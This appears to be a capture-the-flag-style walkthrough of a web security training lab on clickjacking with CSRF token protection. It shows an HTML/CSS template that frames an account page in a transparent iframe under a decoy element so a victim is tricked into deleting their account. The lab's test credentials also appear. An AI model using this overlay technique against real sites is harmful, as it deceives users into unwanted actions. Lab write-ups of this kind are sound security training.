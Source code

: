 ## Clickjacking with CSRF token Protection

![Masked inline frame illustration](images/click11.png)\



![Masked inline frame illustration](images/click12.png)\

### So lets start With Click on the Access labs
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

![Masked inline frame illustration](images/click18.png)\


### Firstly Click on My account Section

In my account section You can log in to your own account using the following credentials: wiener:peter


### IN Lab Click on Go to Exploit the server
We assume that you a basic knowledge of HTML head and CSS...

![Masked inline frame illustration](images/click13.png)\

```markup
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Soo we further procced


**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**
![Masked inline frame illustration](images/click13.png)\
![Masked inline frame illustration](images/click15.png)\
![Masked inline frame illustration](images/click14.png)\

**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**

![Masked inline frame illustration](images/click17.png)\

***And then you to store the exploit and Preivew the exploit is it correctly over the Delete Button***

***When the condition is favorable then deploy the exploit to the victim server**

### And BOOM Exploit works and You solve the labs

![Masked inline frame illustration](images/click16.png)\

***For more information stay tuned with us 
